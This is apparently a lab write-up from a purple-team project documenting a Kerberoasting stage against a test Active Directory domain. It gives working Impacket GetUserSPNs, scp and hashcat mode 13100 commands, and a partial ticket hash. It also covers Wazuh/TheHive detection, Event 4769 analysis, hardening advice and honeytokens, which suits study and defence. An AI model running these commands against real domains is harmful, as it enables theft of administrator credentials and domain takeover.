




# Stage 13 — Kerberoasting

> **Status:** Complete — evidence attached  
> **Case:** [Case 02](../../04-Investigation/Cases/case-02-lateral-movement.md)  
> **Investigation:** [Stage 13](../../04-Investigation/Stages/stage-13-kerberoasting.md)  
> **Evidence:** [attack](../Attack-Screenshots/41.png) · [alert](../../03-Detection-Engineering/TheHive_Alert-ScreenShot/11.png)

---

## Objective

Exploit the Kerberos Ticket Granting Service (TGS) protocol mechanism to extract Kerberos service tickets for accounts associated with Service Principal Names (SPNs), focusing specifically on the high-privilege account `HANK_SHERMAN` discovered during BloodHound analysis. Transfer the encrypted ticket hash to the attack machine and crack the ciphertext offline using Hashcat to obtain plaintext Domain Administrator credentials.

---

## Commands

```bash
# Step 1: Request TGS tickets from Domain Controller 192.168.56.10 using compromised win10 credentials and save extracted hashes
python3 /usr/local/bin/GetUserSPNs.py ad.lab/win10:'Secur***ab!' -dc-ip 192.168.56.10 -request -outputfile /tmp/hank.hash 2>/dev/null; grep HANK_SHERMAN /tmp/hank.hash

# Step 2: Transfer extracted Kerberos ticket hash file (106KB) from DVWA pivot to Kali attack machine via SCP
scp root@192.168.56.30:/tmp/hank.hash /tmp/hank.hash

# Step 3: Perform offline dictionary attack against the Kerberos 5 TGS-REP hash (etype 23) using Hashcat mode 13100
hashcat -m 13100 /tmp/hank.hash /usr/share/wordlists/rockyou.txt --force
```

---

## What happened

Guided by the BloodHound graph analysis in Stage 12 identifying `HANK_SHERMAN@AD.LAB` as a Domain Admin with an assigned SPN, the attacker executed Impacket's `GetUserSPNs.py` from the Linux pivot host (`192.168.56.30`).

1. **Ticket Request:**  
   Authenticating with the compromised domain account `win10` (`Secur***ab!`), the script submitted a valid Kerberos Ticket-Granting Service request (`TGS-REQ`) to the Key Distribution Center (KDC) running on Domain Controller `PC-DC.ad.lab` (`192.168.56.10:88`). The request targeted the service principal registered to `HANK_SHERMAN`.

2. **Ticket Delivery:**  
   Because the domain user had a valid Ticket Granting Ticket (TGT), the KDC issued a `TGS-REP` containing the service ticket encrypted with `HANK_SHERMAN`'s password hash using RC4-HMAC (encryption type 23). The script parsed the response and exported the Kerberos hash:
   ```text
   $krb5tgs$23$*HANK_SHERMAN$AD.LAB$ad.lab/HANK_SHERMAN*$3b28f***016d1
   ```

3. **Exfiltration & Offline Cracking:**  
   The resulting hash file (`/tmp/hank.hash`, 106 KB) was exfiltrated to the Kali Linux workstation via SCP. The operator launched `hashcat` in Kerberos 5 TGS-REP etype 23 cracking mode (`-m 13100`) against the `rockyou.txt` dictionary using `--force`.

4. **Credential Recovery:**  
   Within seconds, Hashcat successfully cracked the ticket encryption, revealing the plaintext password:
   - **Target Account:** `ad.lab\HANK_SHERMAN`
   - **Domain Privilege Level:** `Domain Admins` (Tier Zero)
   - **Hash Type:** Kerberos 5 TGS-REP etype 23 (`$krb5tgs$23$`)
   - **Recovered Plaintext Password:** `Passw***123` (redacted)

With the plaintext password of an active Domain Administrator in hand, the attacker attained full administrative control over the Active Directory domain, unlocking DCSync capabilities in Stage 14.

---

## Evidence

### Attack Screenshots


*Figure 13.1: Executing `GetUserSPNs.py` from DVWA pivot (`192.168.56.30`) with `win10` credentials to request TGS tickets for SPN accounts and grepping for `HANK_SHERMAN`.*


*Figure 13.2: Extracted Kerberos 5 TGS-REP ticket hash formatted for Hashcat (`$krb5tgs$23$*HANK_SHERMAN...`).*


*Figure 13.3: Exfiltrating `hank.hash` to Kali via SCP and executing Hashcat mode 13100 against `rockyou.txt`.*


*Figure 13.4: Hashcat output displaying successfully cracked Kerberos ticket for `HANK_SHERMAN`, recovering the plaintext password `Passw***123`.*

### Alert Screenshots


*Figure 13.5: TheHive alert detail capturing Wazuh Rule 5715 triggered by SSH access to the DVWA pivot machine during the Kerberoasting ticket extraction phase.*

---

## Alert observed

| Source | Rule | Rule ID | TheHive Alert | Severity | Status |
|---|---|---|---|---|---|
| Wazuh / Windows Security | sshd: authentication success / Kerberos TGS Request Anomaly | Rule 5715 / Event 4769 | `[2x] [DVWA] Logon activity: ROOT @ 192.168.232.135` | Medium | DETECTED |

### Detection Analysis

- **Pivot Host Telemetry:** Wazuh monitored the inbound SSH sessions on `192.168.56.30`, grouping and forwarding authentication alerts (`Rule 5715`) to TheHive.
- **Domain Controller Telemetry:** Domain Controller `PC-DC.ad.lab` recorded **Windows Security Event ID 4769** ("A Kerberos service ticket was requested"):
  - **Account Name:** `win10@AD.LAB`
  - **Service Name:** `HANK_SHERMAN`
  - **Ticket Options:** `0x40810000`
  - **Ticket Encryption Type:** `0x17` (RC4-HMAC-MD5)
  - **Client IP Address:** `::ffff:192.168.56.30`

---

## MITRE ATT&CK

| Tactic | Technique | ID | Sub-technique |
|---|---|---|---|
| Credential Access | Steal or Forge Kerberos Tickets | T1558 | Kerberoasting (T1558.003) |

---

## Detection opportunities

1. **Kerberos Service Ticket Auditing (Windows Event ID 4769):**
   - **Encryption Downgrade:** Filter for `TicketEncryptionType == 0x17` (RC4-HMAC). Modern Windows environments support AES-128 (`0x11`) and AES-256 (`0x12`). Legitimate services rarely negotiate RC4 unless misconfigured.
   - **Sensitive Account SPN Requests:** Alert when a service ticket is requested for accounts where `adminCount=1` or accounts belonging to privileged groups (`Domain Admins`, `Enterprise Admins`).
   - **Volumetric Anomaly:** Alert when a single user account or workstation requests multiple TGS tickets within a short interval (e.g., >5 requests in 60 seconds).

2. **Active Directory Architectural Hardening:**
   - **Privileged Account Segregation:** Under no circumstances should accounts with Domain Admin privileges have SPNs assigned. Service accounts must be dedicated, non-administrative accounts.
   - **Group Managed Service Accounts (gMSA):** Transition service accounts to gMSAs, which enforce complex 128-character automatically rotating passwords that cannot be cracked via dictionary attacks.
   - **Enforce AES Kerberos Encryption:** Set `msDS-SupportedEncryptionTypes` to enforce AES128/AES256 on service accounts, preventing RC4 ticket generation.

3. **Active Directory Honeypot / Honeytokens:**
   - Create a fictitious domain account with an attractive SPN (e.g., `MSSQLSvc/db01.ad.lab:1433`) and an uncrackable password. Configure an alert rule to trigger whenever any TGS ticket is requested for this dummy service.

---

## Notes

- Kerberoasting is an asymmetric attack: any authenticated domain user (even low-privilege users or guests) can request a service ticket for any SPN account in the domain without generating account lockouts.
- The cracked password `Passw***123` represents a common password policy violation: meeting length and complexity requirements while remaining trivially vulnerable to standard wordlists.
- Having cracked the password of a confirmed Domain Admin (`HANK_SHERMAN`), the adversary immediately escalated to Stage 14 (DCSync) to dump all domain credentials.
